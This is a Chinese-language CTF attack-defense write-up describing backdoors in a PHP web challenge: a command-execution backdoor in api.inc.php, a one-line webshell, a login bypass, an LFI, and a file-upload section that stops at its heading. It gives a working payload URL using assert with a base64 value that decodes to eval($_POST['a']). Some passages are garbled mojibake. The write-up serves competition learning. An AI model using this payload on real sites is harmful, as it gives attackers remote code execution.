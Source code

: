 ![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900408328-ee629092-4e69-4215-8d59-51da5291f27b.png)

虽然我经常发帖子过D盾，但是D盾确实很厉害啊哈哈哈，在比赛中还是非常有用的

老套路，被留了各种后门。

因为本来预定的环境有问题，启用了备用线路，所以只有一个web一个pwn，那就慢慢看吧。

### 第一个后门 任意命令执行

文件名 api.inc.php

很多文件都包含有这个文件

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900408498-4c312cce-ba89-4404-a9c2-782ac9878eda.png)

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900408670-b56b6c04-6d64-420b-bf15-4c8c17e0e500.png)

authcheckæ¯ä¸ªarray_mapï¼ä¸é¢51è¡åè°ç¨äºè¿ä¸ªauthcheck，

代码意思就是说收到数组authååbase64è§£ç ä¸éï¼ç¶åç¨authcode参数来任意命令执行

那么我们就可以构造以下payload：

```
http://xxxxx/api.inc.php?authcode=assert&auth=ZXZhbCgkX1BPU1RbJ2EnXSk7
```

auth参数解码后是

```
eval($_POST['a']);
```

就可以生成个用蚁剑连接的一句话啦

附一张当时的截图

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900408970-f45857f0-6b55-4159-88dc-4dbd54a1b94b.png)

最开始因为手速快，所有的人都被我们拿了flag

### 第二个后门  一句话木马

这个没什么说的

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900409124-5a001b91-cc1c-4955-bb6c-226b0ceeb974.png)

后来发现他的$islogin可以随便绕过。。根本不用登陆。。

### 第三个后门  LFI

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900409262-7c8c5b77-0ed9-41bf-be09-89c089d7d28e.png)

直接包含flag就可以读取

### 第四个后门  任意文件上传
